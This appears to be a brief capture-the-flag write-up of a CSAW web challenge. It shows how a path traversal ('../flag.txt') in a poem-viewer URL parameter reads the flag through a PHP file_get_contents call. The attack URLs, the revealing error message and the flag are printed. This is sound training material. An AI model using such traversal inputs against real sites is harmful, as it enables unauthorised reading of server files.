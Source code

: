 # warm-up/poem-collection

>warm-up/poem-collection

>_ Points\
>Hey! I made a cool website that shows off my favorite poems. See if you can find flag.txt somewhere!\
>http://web.chal.csaw.io:5003

***

Clicking on a poem in this site redirects to "http://web.chal.csaw.io:5003/poems/?poem=poem3.txt"

So attempted to change the URL to point to a flag with 
```
http://web.chal.csaw.io:5003/poems/?poem=flag.txt
```

which gave the error 
```
Warning:  file_get_contents(flag.txt): failed to open stream: No such file or directory in /var/www/html/poems/index.php on line 4
```

Noticing that the given ?poem goes directly into the script, I quickly tried a few versions to see if I could navigate the directory
```
http://web.chal.csaw.io:5003/poems/?poem=./flag.txt
```
and
```
http://web.chal.csaw.io:5003/poems/?poem=../flag.txt
```

which resulted in the desired flag,
```
flag{l0c4l_f1l3_1nclusi0n_f0r_7h3_w1n}
```
